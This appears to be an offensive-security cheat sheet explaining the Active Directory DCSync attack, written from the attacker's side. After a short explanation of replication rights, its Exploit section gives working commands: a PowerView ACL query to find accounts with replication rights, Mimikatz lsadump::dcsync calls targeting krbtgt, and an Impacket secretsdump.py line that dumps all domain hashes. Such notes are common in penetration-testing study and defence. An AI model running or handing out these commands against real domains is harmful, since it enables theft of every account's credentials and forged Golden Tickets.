 # Overview
>In production environments, domains typically rely on more than one domain controller to provide redundancy. The _Directory Replication Service_ (DRS) Remote Protocol uses _replication_ to synchronize these redundant domain controllers. A domain controller may request an update for a specific object, like an account, using the _IDL_DRSGetNCChanges_ API.
>Luckily for us, the domain controller receiving a request for an update does not check whether the request came from a known domain controller. Instead, it only verifies that the associated SID has appropriate privileges. If we attempt to issue a rogue update request to a domain controller from a user with certain rights it will succeed.
>To launch such a replication, a user needs to have the _Replicating Directory Changes_, _Replicating Directory Changes All_, and _Replicating Directory Changes in Filtered Set_ rights. By default, members of the _Domain Admins_, _Enterprise Admins_, and _Administrators_ groups have these rights assigned.
>If we obtain access to a user account in one of these groups or with these rights assigned, we can perform a _dcsync_ attack in which we impersonate a domain controller. This allows us to request any user credentials from the domain.
>This can be used by attackers to get any account’s NTLM hash including the KRBTGT account, which enables attackers to create Golden Tickets.

# Exploit
- Find a user that has the rights (_above_)
```powershell
Get-ObjectAcl -DistinguishedName "dc=fcorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')}

# if the user has the necessary rights :
lsadump::dcsync /domain:<domain> /user:<user>
# FOR EXAMPLE:
lsadump::dcsync /domain:fcorp.local /user:krbtgt

# with powerview
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'


# LINUX
# Find the user that has the rights
secretsdump.py -just-dc <user>:<password>@<ipaddress> -outputfile dcsync_hashes
```